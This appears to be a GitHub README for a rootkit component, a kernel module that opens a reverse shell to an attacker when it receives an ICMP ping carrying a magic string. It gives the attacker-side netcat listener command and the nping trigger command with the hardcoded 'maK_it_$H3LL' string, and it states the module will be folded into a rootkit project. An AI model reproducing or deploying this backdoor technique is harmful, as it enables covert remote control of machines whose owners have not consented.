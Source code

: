Kernel module invoked reverse shell
===================================

When this kernel module is installed
it invokes an icmp listener script,
this script sends a reverse shell in response
to an attacker ping.

Using nc -l [PORT] and then in a separate window running
nping --icmp -c 1 -dest-ip [victim ip] --data-string 'maK_it_$H3LL [attacker ip] [PORT]'
we can ping the victim machine and send ourselves back a reverse shell.
Make sure to have a netcat listener waiting on the port you specify before pinging.

This demonstrates how a user-land script/app can be invoked from the kernel

This functionality will be added as part of the final rootkit that is being
developed as part of this project https://web.archive.org/web/20190119045332/https://r00tkit.me/
